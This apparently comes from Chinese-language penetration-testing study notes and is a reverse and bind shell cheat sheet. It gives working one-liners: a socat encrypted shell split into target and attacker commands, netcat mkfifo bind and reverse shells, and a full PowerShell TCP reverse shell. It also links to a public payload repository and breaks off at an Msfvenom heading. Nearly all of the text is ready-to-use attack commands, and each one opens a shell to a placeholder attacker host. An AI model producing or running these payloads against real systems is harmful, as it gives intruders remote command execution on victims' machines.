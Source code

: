 
```Bash
#在目标上
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
#在攻击机上
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
```

常见有效载荷

netcat一些版本中，有-e选项，允许在连接时执行一个进程

使用以下代码创建一个绑定shell的监听器


```Bash
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
#创建文件 /tmp/f，然后使用 netcat 监听指定端口，并将标准输入发送到该端口。
#同时，将标准输出和标准错误重定向到文件 /tmp/f 中。最后，删除文件 /tmp/f
```


```Bash
mkfifo /tmp/f; nc.traditional -l -p 8080 < /tmp/f | /bin/sh > /tmp/f 2>&1; rm /tmp/f
```

发送netcat反向shell


```Bash
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

![](assets/JbeMb6BPyoFytGx7gbXcFZ3Onph.png)

PSH反向shell


```Bash
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

包含各种语言的shell代码的库：https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

> 比较稳定




## `Msfvenom`
